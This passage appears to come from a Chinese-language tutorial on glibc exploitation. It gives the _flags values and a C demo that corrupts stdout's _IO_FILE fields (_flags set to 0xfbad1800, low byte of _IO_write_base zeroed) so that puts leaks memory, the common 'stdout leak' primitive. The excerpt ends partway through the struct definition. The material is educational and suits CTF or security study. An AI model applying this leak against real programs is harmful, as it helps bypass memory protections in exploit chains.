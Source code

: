 - _flags |=  _IO_IS_APPENDING;    // 0x1000
- \_flags &=  (~_IO_NO_WRITES);    //0x8
- _flags = 0xfbad1800;

&emsp;&emsp;<font size=2>然后`_IO_write_base`和`_IO_write_ptr`只需要指向我们想要的泄漏区间就行了，这样就能完成任意地址泄漏，demo如下：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <libio.h>

typedef unsigned long long ull;

void setbufs()
{
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}

int main()
{
	ull *p1, *p2, *p3, *p4, *p;
	_IO_FILE* pstdout;

	setbufs();

	// init the _IO_2_1_stdout_
	puts("hello,world!");
	pstdout = stdout;
	printf("&_flags:%llx\n", (ull)&pstdout->_flags);

	pstdout->_flags = (0xfbad0000 | _IO_CURRENTLY_PUTTING | _IO_IS_APPENDING & (~_IO_NO_WRITES));
	*(unsigned char*)&pstdout->_IO_write_base = 0;
  // leak here
	puts("something");

	return 0;
}

/*
struct _IO_FILE {
  int _flags;
  char* _IO_read_ptr;   
  char* _IO_read_end;   
  char* _IO_read_base;  
  char* _IO_write_base; 
  char* _IO_write_ptr;  
  char* _IO_write_end;  
  char* _IO_buf_base;   
  char* _IO_buf_end;    
  char *_IO_save_base;
  char *_IO_backup_base;
  char *_IO_save_end;

  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
```